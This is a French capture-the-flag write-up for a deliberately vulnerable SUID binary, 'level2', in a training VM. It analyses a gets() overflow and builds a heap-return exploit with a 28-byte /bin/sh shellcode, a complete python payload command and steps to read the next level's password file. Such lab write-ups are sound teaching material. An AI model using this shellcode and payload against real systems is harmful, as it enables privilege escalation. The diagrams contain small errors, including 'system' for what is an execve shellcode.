




# LEVEL 2

## 1. Introduction

Le binaire `level2` présente une vulnérabilité de **buffer overflow** avec une contrainte particulière : les adresses de la pile sont protégées. Il faut donc exploiter la **heap** via `strdup()` pour exécuter notre shellcode.

Ici le binaire lit une entrée standard et l'affiche :



## 2. Analyse

### 2.1 Droits du binaire
```bash
$ ls -la level2
-rwsr-s---+ 1 level3  level2  747441 Mar  6  2016 level2
```

### 2.2 Analyse avec Ghidra

En décompilant le binaire, on observe :



```c
int main(void) {
    char local_50[80];  // Buffer de 80 octets
    
    gets(local_50);     // Fonction vulnérable
    strdup(local_50);   // Copie sur la heap
    
    // Protection contre les sauts vers la pile
    if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
        printf("(%p)\n", unaff_retaddr);
        _exit(1);
    }
}
```

**Points clés :**
- Buffer de 80 octets
- `strdup()` copie l'entrée sur la heap
- Protection contre les adresses `0xb0000000-0xbfffffff`

### 2.3 Détermination du point de crash

On peut déjà trouver où ça segfault grâce au [pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) et GDB : c'est à **80**.

### 2.4 Contraintes de sécurité

Ensuite, on remarque cette condition :

```c
if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n", unaff_retaddr);
    _exit(1);
}
```

qui **interdit** tout saut vers une adresse **0xb0000000–0xbfffffff** (pile, tas, libc…).
La pile est donc inexploitable, il faut passer par la **heap**.

### 2.5 Localisation de strdup()

Heureusement, il y a `strdup()` qui copie notre entrée sur la heap. Comme la heap est allouée dynamiquement, elle n'est pas soumise aux mêmes restrictions que la pile. Pour exploiter cette vulnérabilité, nous devons d'abord localiser l'adresse où `strdup()` place notre donnée. Nous pouvons le faire simplement avec `ltrace` :



## 3. Exploitation

### 3.1 Shellcode

Comme nous l'avons vu précédemment avec `ltrace`, l'adresse retournée par `strdup()` est `0x0804a008`. En little-endian, cette adresse devient `\x08\xa0\x04\x08`.

Pour l'exploitation, nous avons besoin d'un shellcode. Nous trouvons sur le site [shell-storm.org](https://shell-storm.org/shellcode/index.html) un shellcode de 28 bytes. Notre payload doit contenir ce shellcode, du padding pour atteindre 80 bytes (point de segfault), et l'adresse de `strdup()` pour rediriger l'exécution vers notre shellcode.

Voici le shellcode choisi de 28 bytes :
```bash
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
```

### 3.2 Construction du payload

On peux construire notre payload de cette facon :

```bash
python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + (80 - 28) * "A" + "\x08\xa0\x04\x08"' > /tmp/payload
```

### 3.3 Exécution de l'exploit

Et enfin on peux executer toujours avec cat /tmp/exploit - pour que ca reste bloquer et ainsi avoir le temps de faire la commande qui permet de recuperer le flag !



### 3.4 Commandes complètes

```bash
# Se connecter au niveau
ssh level2@<IP> -p 4242

# Créer le payload
python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + (80 - 28) * "A" + "\x08\xa0\x04\x08"' > /tmp/payload

# Exécuter l'exploit
cat /tmp/payload - | ./level2

# Récupérer le flag
cat /home/user/level3/.pass
```

## 4. Structure du Payload

### 4.1 Ce qui se passe concrètement

```
┌─────────────────────────────────────────────────────────┐
│              HEAP EXPLOITATION                        │
├─────────────────────────────────────────────────────────┤
│  Shellcode[28] + Padding[52] + Adresse heap[4]       │
│  │                                                    │
│  └─→ \x31\xc0\x50... + "A"*52 + \x08\xa0\x04\x08   │
│      │                                                │
│      └─→ strdup() copie sur heap à 0x0804a008       │
│          │                                            │
│          └─→ Écrasement adresse de retour            │
│              │                                        │
│              └─→ Redirection vers shellcode sur heap │
│                  │                                    │
│                  └─→ system("/bin/sh")               │
│                      │                               │
│                      └─→ Shell avec privilèges level3│
└─────────────────────────────────────────────────────────┘
```

### 4.2 Structure de la pile avec protection

```
┌─────────────────┐
│   Buffer[80]    │ ← Notre entrée (80 octets)
├─────────────────┤
│      EBP        │ ← 4 octets (sauvegardé)
├─────────────────┤
│   Retour main   │ ← 4 octets (notre cible)
└─────────────────┘
```

### 4.3 Protection et contournement

```
┌─────────────────┐    ┌─────────────────┐    ┌─────────────────┐
│   Protection    │    │   Contournement │    │   Exploitation  │
│   0xb0000000-   │    │   strdup()      │    │   Heap shellcode│
│   0xbfffffff    │───▶│   → heap        │───▶│   → system()    │
│   bloquée       │    │   0x0804a008    │    │                 │
└─────────────────┘    └─────────────────┘    └─────────────────┘
```

### 4.4 Flux d'exécution

```
1. gets() lit notre entrée (shellcode + padding + adresse)
2. strdup() copie notre entrée sur la heap à 0x0804a008
3. Buffer déborde de 80 octets, écrasant l'adresse de retour
4. Adresse de retour pointe vers notre shellcode sur la heap
5. Shellcode s'exécute et appelle system("/bin/sh")
6. Shell s'ouvre avec les privilèges SUID de level3
```

### 4.5 Visualisation de l'exploitation

```
┌─────────────────┐    ┌─────────────────┐    ┌─────────────────┐
│   Shellcode     │    │   Heap Copy     │    │   Execution     │
│   + Padding     │───▶│   strdup()      │───▶│   system("/sh") │
│   + Adresse     │    │   0x0804a008    │    │                │
└─────────────────┘    └─────────────────┘    └─────────────────┘
```

## 5. Conclusion

Cette vulnérabilité exploite un **buffer overflow** avec contrainte de sécurité. La protection empêche l'exploitation de la pile, mais `strdup()` permet d'écrire sur la heap. En combinant un shellcode de 28 bytes avec un padding de 52 bytes, on atteint l'adresse de retour et on redirige l'exécution vers notre shellcode sur la heap. 